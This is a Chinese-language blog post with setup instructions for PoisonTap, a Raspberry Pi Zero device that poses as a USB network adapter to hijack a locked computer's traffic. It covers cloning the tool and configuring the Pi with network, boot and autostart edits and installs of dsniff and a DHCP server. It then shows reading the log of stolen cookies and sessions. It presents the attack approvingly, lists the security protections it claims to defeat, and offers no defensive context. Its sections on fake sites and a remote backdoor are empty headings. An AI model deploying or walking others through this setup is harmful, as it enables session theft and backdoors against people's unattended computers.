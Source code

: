 ```yaml
---
title: 30秒内盗取任意PC的Cookie神器 PoisonTap
date: 2016-12-18 18:44:51
tags: Hack 
categories: Hack 
permalink: poisontap
header-img: "/content/images/2016/07/stock-photo-132346157-1.jpg"

---
```


著名黑阔Samy Kamkar利用Raspberry Pi Zero黑客神器PoisonTap，只需30秒，就可以窃取有任意密码的电脑系统下的Cookie和Session，并实现长期后门安装。PoisonTap不是暴力破解密码，而是绕过密码。

是的，买了Raspberry Pi Zero，有幸尝试了一下这个基于Node的工具，真乃神器。

<!--more-->

# 介绍

PoisonTap 通吃 Windows/Mac/Linux系统。其实现原理十分猥琐。

![](/content/images/poisontap/1.gif)

把自己伪装成有线网卡，一旦插入系统中，众所周知，所有的操作系统的规则都是这样的：

> 有线网络>无线网络

也就是说，如果他连接着Wi-Fi，没关系，系统会以我的伪网卡为最高优先级。在系统处于锁屏状态下，只要有网络通信，无论系统通信哪个都会被强制跳转到我用于 攻击你的页面 ，成批量的窃取你的Cookie和Session。

没错，就是你猜到的MITM，中间人攻击。通过PoisonTap，我们可以：

- 模拟成一个伪USB网卡
- 不需要解锁电脑就可以实现攻击
- 劫持系统所有网络连接的所有流量 包括局域网
- 窃取储存Alexa前一百万的网站的Cookie和Session
- 用远程outbound的方式进行WebSocket或DNS重绑定攻击
- 用HTTP的JS缓存禁止对该PC进行web后门安装，缓存涉及到上千个域名和cdn js缓存供应商
- 截取Cookie后可以使用该PC的Cookie进行登录，实现中间人攻击的最终目标

![](/content/images/poisontap/2.gif)

PoisonTap比你想象的更强大的是，PoisonTap能够突破以下普通MITM办不到的几点：

* 锁屏密码
* 路由表ARP的优先级设置和网络适配器优先级设置
* 同源策略 (Same-Origin Policy)
* X-Frame-Options 响应头攻击
* Cookie的HttpOnly安全设置
* Cookie的SameSite安全属性
* 两步/多步验证密码(2FA/MFA)
* DNS劫持
* 跨域资源共享CORS
* HTTPS cookie 保护

# 安装

接着昨天的零网络配置，我们不需要任何网口 WiFi 蓝牙 就可以完成配置。

注意！配置前请保证`apt-get`命令是可以用的且可以联网的，配置过程中不允许出错，否则会出大问题。

首先，我们在本机下载下来这个神器Poisontap

```bash
git clone https://github.com/samyk/poisontap
```
然后，我们用scp命令把Poisontap传到Raspberry Pi Zero上。
```bash
scp -r poisontap pi@zero.local:~
```
登录到树莓派上，运行
```bash
cd poisontap
echo -e "\nauto usb0\nallow-hotplug usb0\niface usb0 inet static\n\taddress 1.0.0.1\n\tnetmask 0.0.0.0" >> /etc/network/interfaces
echo "dtoverlay=dwc2" >> /boot/config.txt
echo -e "dwc2\ng_ether" >> /etc/modules
sudo sed --in-place "/exit 0/d" /etc/rc.local
echo "/bin/sh /home/pi/poisontap/pi_startup.sh" >> /etc/rc.local
mkdir /home/pi/poisontap
chown -R pi /home/pi/poisontap
apt-get update && apt-get upgrade
apt-get -y install isc-dhcp-server dsniff screen nodejs
```
确保以上都成功后，运行
```bash
sudo cp dhcpd.conf /etc/dhcp/dhcpd.conf
reboot
```
好了，已经安装好了，接下来我们可以Hack啦~
# Hack
## Cookie 和 Session窃取
把配置好的树莓派重新插入电脑里，这时他已经变成了黑阔神器了。

为了使攻击过程可视化，我们访问 www.google.com

![](/content/images/poisontap/4.png)

动画非常炫酷，这时候已经在窃取成千上万的网站的Cookie了，吃个小饼干。

![](/content/images/poisontap/5.png)

打开Chrome的工具看一看，哇。

随后，Cookie都被保存在树莓派里了，我们连接上树莓派的SSH，看一下，成功。

```bash
cat poisontap.cookies.log
```

![](/content/images/poisontap/3.png)

## 伪造网站


## 远程后门


# 参考
https://github.com/samyk/poisontap
